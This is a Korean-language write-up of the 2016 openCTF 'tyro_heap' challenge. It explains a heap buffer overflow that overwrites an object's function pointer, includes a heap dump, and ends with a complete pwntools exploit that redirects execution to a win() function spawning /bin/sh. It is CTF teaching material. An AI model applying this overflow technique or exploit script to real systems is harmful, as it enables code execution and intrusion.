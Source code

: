 # 2016_openCTF_tyro_heap

## Key words

- i386 | NX
- heap buffer overflow
- overwrite function pointer

## Solution

문제는 다음과 같은 메뉴가 존재 합니다.

- c: 오브젝트 할당
  - obj = malloc(0x24)
  - obj[0] = &puts
- b: b 구조로 읽기
  - 오브젝트에 할당하는 크기에 제한이 없음
- a: a 구조로 읽기
  - 34 byte 만큼 오브젝트에 할당
- e: obj[0] 실행

문제 자체는 c++ class 의 vtable에 대한 공부로 좋은 형태가 될 것 같습니다.

c++ class의 첫 4바이트는 vtable 주소를 갖으며 vtable은 클래스 내부 멤버 함수들에 대한 주소를 갖기 때문에 이러한 함수 포인터를 덮는 개념을 배울 수 있습니다.

먼저, 오브젝트의 첫 바이트는 `&puts`, 즉 함수 포인터로 되어 있습니다. 따라서, `obj[0]('test')`와 같은 형태로 사용하게 되면 `puts('test')`로 사용할 수 있습니다.

읽기 메뉴에서는 함수 포인터 이후인 `obj+4`부터 읽기 때문에 당장은 함수 포인터를 덮을 수는 없지만 오브젝트 2개를 생성한 뒤에 첫 번째 오브젝트를 b구조로 읽어서 두 번째 오브젝트까지 덮을 수 있습니다.

```
[heap]
0x804b000:	0x00000000	0x00000029	0x080484e0	0x00000000
0x804b010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804b030:	0x080484e0	0x00000000	0x00000000	0x00000000
0x804b040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804b050:	0x00000000	0x00020fb1	0x00000000	0x00000000
```

첫 번째 오브젝트 : `obj[0][0:4] = 0x0804b008 (&puts)` 까지는 함수 포인터 이며 `obj[0][4:36] = 0x0804b00c` 부터 0x20바이트 만큼 데이터 입니다.
두 번째 오브젝트 : `obj[1][0:4] = 0x0804b030 (&puts)` 로 되어 있습니다.

문제에서는 간단히 익스를 하기 위해 `win`이라는 함수를 제공해주고 있습니다.

```c
int win()
{
  return system("/bin/sh");
}
```

따라서, 첫 번째 오브젝트를 b 구조로 읽어 두 번째 오브젝트의 함수 포인터를 `&win`으로 덮고 실행 명령인 `e`를 해주게 되면 쉘이 떨어지게 됩니다.

## exploit code

```python
from pwn import *
context(arch='i386', os='linux')

target = "./tyro_heap"
p = process(target)

addr_win = 0x08048660

print p.recvuntil("::>")

# create object [idx 0]
p.sendline("c")
print p.recvuntil("::>")

# create object [idx 1]
p.sendline("c")
print p.recvuntil("::>")

# read_b -> idx 0 -> "A" * 0x20 + "A" * 8 + p32(win)
p.sendline("b")
print p.recv()
p.sendline("0")
print p.recv()
p.sendline("AAAA"*9 + p32(addr_win))
print p.recvuntil("::>")

p.sendline("e")
print p.recv()
p.sendline("1")
print p.recv()

p.interactive()
```
